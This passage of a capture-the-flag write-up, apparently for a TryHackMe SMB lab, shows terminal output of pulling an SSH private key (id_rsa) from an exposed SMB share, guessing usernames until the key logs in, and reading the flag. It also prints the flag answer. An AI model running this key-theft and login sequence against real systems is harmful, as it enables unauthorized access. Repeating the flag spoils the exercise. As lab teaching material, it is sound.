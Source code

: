 <br>

Download this file to your local machine, and change the permissions to "600" using "chmod 600 [file]".

Now, use the information you have already gathered to work out the username of the account. Then, use the service and key to log-in to the server.

What is the smb.txt flag?

```
THM{smb_is_fun_eh?}
```

```shell
smb: \.ssh\> get id_rsa
getting file \.ssh\id_rsa of size 1679 as id_rsa (819.8 KiloBytes/sec) (average 819.8 KiloBytes/sec)
smb: \.ssh\> exit
root@ip-10-10-51-158:~# chmod 600 id_rsa
```

```shell
root@ip-10-10-51-158:~# ssh root@10.10.190.95 -i id_rsa
root@10.10.190.95's password:

root@ip-10-10-51-158:~# ssh johncactus@10.10.190.95 -i id_rsa
Connection closed by 10.10.190.95 port 22
root@ip-10-10-51-158:~# ssh JohnCactus@10.10.190.95 -i id_rsa
Connection closed by 10.10.190.95 port 22
root@ip-10-10-51-158:~# ssh cactus@10.10.190.95 -i id_rsa
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jun 24 05:55:20 UTC 2024

  System load:  0.0                Processes:           93
  Usage of /:   33.3% of 11.75GB   Users logged in:     0
  Memory usage: 17%                IP address for eth0: 10.10.190.95
  Swap usage:   0%


22 packages can be updated.
0 updates are security updates.


Last login: Tue Apr 21 11:19:15 2020 from 192.168.1.110
cactus@polosmb:~$ ls
smb.txt
cactus@polosmb:~$ cat smb.txt
THM{smb_is_fun_eh?}
```
